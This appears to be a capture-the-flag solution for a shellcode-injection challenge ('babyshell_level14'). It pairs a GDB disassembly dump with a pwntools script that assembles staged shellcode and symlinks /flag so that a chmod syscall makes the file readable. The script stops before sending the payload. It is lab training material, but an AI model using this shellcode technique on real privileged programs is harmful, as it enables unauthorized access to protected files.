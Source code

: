```asm
   0x1b3f5014:  add    %al,(%rax)
   0x1b3f5016:  add    %al,(%rax)
   0x1b3f5018:  add    %al,(%rax)
   0x1b3f501a:  add    %al,(%rax)
   0x1b3f501c:  add    %al,(%rax)
   0x1b3f501e:  add    %al,(%rax)
   0x1b3f5020:  add    %al,(%rax)
   0x1b3f5022:  add    %al,(%rax)


1: x/16i $pc
=> 0x1b3f5006:  nop
   0x1b3f5007:  push   $0x66
   0x1b3f5009:  mov    %rsp,%rdi
   0x1b3f500c:  push   $0x4
   0x1b3f500e:  pop    %rsi
   0x1b3f500f:  push   $0x3b
   0x1b3f5011:  pop    %rax
   0x1b3f5012:  syscall
   0x1b3f5014:  add    %al,(%rax)
   0x1b3f5016:  add    %al,(%rax)
   0x1b3f5018:  add    %al,(%rax)
   0x1b3f501a:  add    %al,(%rax)
   0x1b3f501c:  add    %al,(%rax)
   0x1b3f501e:  add    %al,(%rax)
   0x1b3f5020:  add    %al,(%rax)
   0x1b3f5022:  add    %al,(%rax)
```

```python

from pwn import *
from warnings import filterwarnings
import os

filterwarnings(action='ignore', category=BytesWarning)
elf = ELF('/challenge/babyshell_level14', checksec=False)
context.binary = elf
context.log_level="INFO"

shellcode = f'''
xor edi, edi
push rdx
pop rsi
syscall
nop
nop
nop
nop
nop
nop
nop
push 0x66  /* ASCII für 'f' */
mov rdi, rsp
push 4
pop rsi
push SYS_chmod
pop rax
syscall
'''

os.system('ln -s /flag f')
p = process()
payload = asm(shellcode, arch='amd64')
```